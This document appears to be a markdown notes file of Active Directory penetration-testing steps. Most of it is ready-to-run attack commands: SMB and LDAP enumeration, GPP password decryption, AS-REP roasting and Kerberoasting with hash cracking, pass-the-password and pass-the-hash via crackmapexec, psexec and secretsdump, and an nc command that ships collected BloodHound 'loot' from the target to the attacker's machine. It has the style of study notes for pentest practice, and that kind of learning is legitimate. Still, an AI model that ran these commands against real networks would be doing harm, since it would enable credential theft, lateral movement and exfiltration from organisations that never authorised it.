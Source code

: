 ## Getting Initial Foodhold
1. Determine the IP address or hostname of the Active Directory server. If we seen( port 53 445, 389, 88, we are most likely dealing with Domain Controller)
2. Enumerate DNS
3. Check open ports: Enumerate SMB: If port 445 is open, use tools like enum4linux, smbmap, smbclient crackmapexec to gather information about the SMB service, such as shared folders and users.
4. Enumerate LDAP: If port 389 or 3268/3269 is open, use tools like ldapsearch, to gather information about the LDAP directory service, such as users, groups, and organizational units.
5. Enumerate Kerberos: If port 88 is open, use tools like krb5-enum-users or enum-users-gpp-decrypt to enumerate users and potentially crack Kerberos passwords.
6. Enumerate RPC: If port 135 is open, use tools like rpcclient or nmap-rpc-info to gather information about the RPC service and potentially identify vulnerable endpoints.
7. Check for group policy: (Groups.xml for Windows 12 and below) Look for group policy information in the directory, use tools like gpp-decrypt to decrypt and extract any saved credentials.
   - open the Groups.xml file. decrpyt the password hash by `gpp-decrypt $HASH`
9. Check for computer accounts: Look for computer accounts in the directory, which can be used to identify and target specific systems on the network.
10. Look for organizational units (OUs): Check for OUs in the directory, which can be used to identify the structure and organization of the network.
11. https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg  Look at this roadmap
12. https://dw3113r.com/2022/07/20/active-directory-attack-cheat-sheet/ 

## Enumeration
1. `nmap -sC -sV -p- -oA result 10.0.0.0./8`
2. Edit host file `subl /etc/hosts to add domain`

## Port 53 DNS
1. `nslookup` 
2. `server $IP` then type -> `$IP` to figure out the host name. 
3. `dnsrecon -d $IP -r $IP
4. 
## Port 445 SMB (Check SMB.md file)
1. `nmap --script safe -p 445, $IP`
2. `enum4linux $IP`
3. `smbmap -H $IP` (anonymous login) 
4. `smbmap -R $Filename $IP` (list the content of the directroy)
5. `smbmap -R Filename $IP -A $FiletoDownload -q` (Download the intersting file such as Groups.xml)  `update db` and `locate $Filename`. 
6. `crackmapexec smb $IP -u '' -p'' ` or `crackmapexec smb $IP -u 'guest' -p''` to try to access.
## Port 389, 636, 3268, 3269 LDAP 
1. `nmap -n -sV --script "ldap* and not brute*" -p- 389 $Ip` 
2.  `ldapsearch -x 
```
ldapsearch -x -h <IP> -s base namingcontexts
[Parse through the returned naming contexts, then enumerate each one]:
ldapsearch -x -h <IP> -b ‘DC=EGOTISTICAL-BANK,DC=LOCAL’
[You can further query specific sections of each naming context]:
ldapsearch -h <IP> -x -b “DC=cascade,DC=local” ‘(objectClass=person)’

```
## AS-REP Roasting (Authentication Reply Roasting)
1. If pre-authentication is disabled, and we provide a list of userlists to the domain controller (AS-REQ), the DC will grant us TGT. If the passwords are weak, we can crack the TGT and gain access. We can use krebrute, impacket, or crackmap
2. If we dont find some misconfiguration or user name try using this username list `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` 
3. or `https://github.com/jeanphorn/wordlist/blob/master/usernames.txt` for the below command
4. `kerbrute userenum --dc $IP -d DOMAIN.NAME user.txt` user.txt is a userlist that we have created to authenticate to DC.
5. `impacket-GetNPUsers -usersfile user.txt -dc-ip $IP DOMAIN.NAME/`
6. Crack the hash
   
   
# After initial shell, credentials or some password (Enumeration)
0. ***Logistic***: Say we gain some creds from the above method and have a shell on the computer. Now what can we do?
1. Check if, I can logon to other PC with same credentials(Pass the Pass crackmapexec) Dump the SAM file to figure out other accounts to move to other account,( Pass the Hash, secret.py)
2. Enumerate the PC that we are loged on to. Continue this process for lateral movement!(psexec)
3. Things we want to know, domain admins, domain controller, domain policy
4. Enumerate the initial target using powerview. Trasfer Powerview , and gather info to send back to bloodhound
```
Transfer SharHound (exe or ps1) and nc.exe to target
Run SharpHound.exe or .ps1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain <DOMAIN.LOCAL> -ZipFileNmame loot.zip
Transfer loot back to kali:
- On $LHOST: nc -nlvp 4321 > loot.zip
- On target: nc.exe -nv <kali IP> 4321 < loot.zip
- Drag loot.zip into BloodHound GUI
```
4. https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 (Some powerView Command cheatsheeet or refer below)
5. `powershell -ep bypass ` `. .\PowerView.ps1` 
6. `Get-NetDomain` , (domain info)
7.  For manual inspection `net user` (for local accounts) `net user /domain` (for all domain users) `net user <USERNAME> /domain` 
8. `Get-NetUser` `Get-NetUser | select cn` 
9. `Get-UserProperty -Properties pwdlastset` (are the passwords new?)   `Get-UserProperty -Properties logoncount` (logins with lot of login?)  
10. `Get-NetGroup`  `Get-NetGroup -GroupName "Domain Admins`. To view the Members `Get-NetGroupMembers -GroupName "Domain Admins`
11. `Get-NetDomainController` (for DC info, DC IP)
12. `Get-DomainPolicy` `(Get-DomainPolicy)."system access"` (policy such as minimum password length)
13. `Get-NetComputer` (show all the computers in the Domain) 
14. `Invoke-ShareFinder` (what files are being shared)
15. `Get-NetGPO` (show group policy)
16.  `Get-NetLoggedon -ComputerName <current Computer name>  `(Find,Currently Logged on Users: their credentials will be saved in memory so find out logged in highvalue target or lateral movement)
17.   `Get-NetSession -ComputerName dc01` (to verfify that domain controller is logged into what other pc)
18.   
## Pass the Password Attack 
1. Lets say we have some credentials. Lets try to pass the password/hash to other connected networks. Would be great if we could get to DC straight away but usually, we wont. 
2. `crackmapexec smb 192.168.119.0/24 -u SOMEUSERNAME -d DOMAIN.LOCAL -p SOMEPASSWORD` 
3. `psexec DOMAIN/username:SOMEPASSWORD@TARGETIP ` to login if sucessful
## Pass the Hash or crack(gained from local SAM)
1. `impacket-secretsdump <username>:<password>@<domain name or IP> -dc-ip <DC IP>`
2. or `secretsdump.py marvel/ID:SOMEPASSWORD@TARGETIP` 
3. `crackmapexec smb 192.168.57.0/24 -u "Frank Admin" -H <Second part of the HASH without ::> --local-auth` (we are trying to login to other computers)
4. If we pawned a PC, we can try to psexec into the PC. `psexec.py "Frank Admin":TARGETIP -hashes avbcd:abcd`. If dont get a shell, we werent able to gain admin access. 

## Token Impersonation
0. If we navigate to a machine and token of a domain administrator(user), we have domain admin. 


## Kerbreroasting (Service Account Attack (want to attack members of high value group )
1. Once we have some username + password, we ask the Domian Controller for TGS (since we can request TGT) and try to crack TGS hash.
```
impacket-GetUserSPNs <IP or hostname>/<username>:<password> -request [add -request if SPN is found]
[save hash and crack with hashcat]
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

## Dump the hash 
1. We have a user account and pssexed into an account. We want to dump hashes.
2. `secretsdump.py Domain/USERNAME:SOMEPASSWORD@TargetIP`
3. `crackmapexec smb $IP.0/24 -u "UserNmae" -H <Hash> --local-auth
## Token Impersonation
